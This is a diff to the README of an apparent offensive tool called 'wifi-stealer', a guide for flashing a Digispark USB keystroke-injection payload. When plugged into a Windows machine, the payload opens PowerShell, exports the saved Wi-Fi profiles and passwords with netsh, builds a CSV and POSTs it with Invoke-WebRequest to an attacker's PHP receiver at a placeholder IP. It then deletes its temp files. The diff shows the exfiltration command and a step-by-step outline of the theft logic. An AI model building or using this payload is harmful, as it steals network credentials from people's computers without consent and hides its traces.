

Before and after one commit to Zypher17/wifi-stealer, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -135,32 +135,38 @@ http://digistump.com/package_digistump_index.json
 
 ### Uploading the payload
 
-1. Open:
+1. Open the Digispark payload sketch:
 
 ```text
 payloads/wifi_stealer_digispark.ino
 ```
 
-2. Find this line and change the IP address:
+2. In the sketch, find the line that defines the receiver URL and change the IP address:
 
 ```cpp
-DigiKeyboard.print(
-  F("Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b")
-);
+$u='http://YOUR_IP/wifi-recv.php';
 ```
 
-Change `YOUR_IP` to the IP of your Kali or Windows server.
+Replace `YOUR_IP` with the IP of your Kali or Windows server (for example `http://192.168.1.8/wifi-recv.php` if you are on the same LAN).
 
-3. Click **Upload**.
-4. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
-5. Wait for the upload to finish.
+3. Make sure the payload contains the Wi‑Fi extraction and POST logic that sends **raw CSV** to `wifi-recv.php`, in this format:
+
+- Export Wi‑Fi profiles to `%TEMP%` using `netsh wlan export profile`.
+- Parse each `Wi-Fi-*.xml` file to build objects with properties: `Time, SSID, Pass, IP, OS`.
+- Export these objects as CSV to something like `%TEMP%\w.csv`.
+- Use `Invoke-WebRequest` to POST the contents of that CSV as the body to `http://YOUR_IP/wifi-recv.php`.
+- Delete the XML and CSV files and exit PowerShell when done.
+
+4. Click **Upload** in Arduino IDE.
+5. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
+6. Wait for the upload to finish.
 
 After flashing, plugging the Digispark into a Windows machine will:
 
 - Open PowerShell.
-- Read saved WiFi profiles.
-- Send the captured data to your PHP receiver.
-- Close out when finished.
+- Read saved WiFi profiles and extract the passwords.
+- Send the captured data to your PHP receiver as CSV.
+- Clean up the temp files it created.
 - Blink the onboard LED to signal it’s done.
 
 ---
````
Also changed, not shown: other parts of README.md (+17 -62 lines).
